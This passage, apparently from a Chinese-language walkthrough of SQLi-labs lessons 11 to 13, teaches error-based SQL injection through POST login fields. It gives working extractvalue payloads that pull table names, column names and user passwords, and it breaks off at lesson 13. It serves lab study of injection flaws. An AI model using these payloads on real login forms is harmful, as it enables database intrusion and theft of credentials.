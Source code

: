 只获取users表中的三个列名id,username,password

6.`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users ))) --+ &passwd=admin&submit=Submit`

查询到部分用户的用户名和密码，如果想查看更多可以继续添加where 与 not in属性

`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users where username not in('Dumb','Angelina') ))) --+ &passwd=admin&submit=Submit`

以此类推


***
# less 12(基于错误的双引号POST型字符变形的注入)

*  原理

与上一题相似，但是改成了双引号变形字符注入，值得注意的是，并不是把单引号换成双引号这么简单，查看源码找到注入点

发现uname和passwd都被用双引号括了起来，所以要想办法对其进行闭合并且接入新的语句



*  步骤

1.构造语句

`admin"  and extractvalue(1,concat('~',(select database())))  and " `

也是用报错的漏洞，将数据库信息输出

2.爆表名

`uname=admin"  and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and "  &passwd=admin&submit=Submit `

3.爆列名

`uname=admin"  and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')))  and "  &passwd=admin&submit=Submit`

还是由于显示的问题，所以采用where和not in的属性对其进行限制与显示新的数据

4.其余爆用户名和密码的方式与之前一样

`uname=admin" and extractvalue(1,concat('~',(select group_concat(username,'~',password) from users))) and " &passwd=admin&submit=Submit`




***
# less 13(POST单引号变形双注入)

*  原理

基于报错的注入

*  步骤
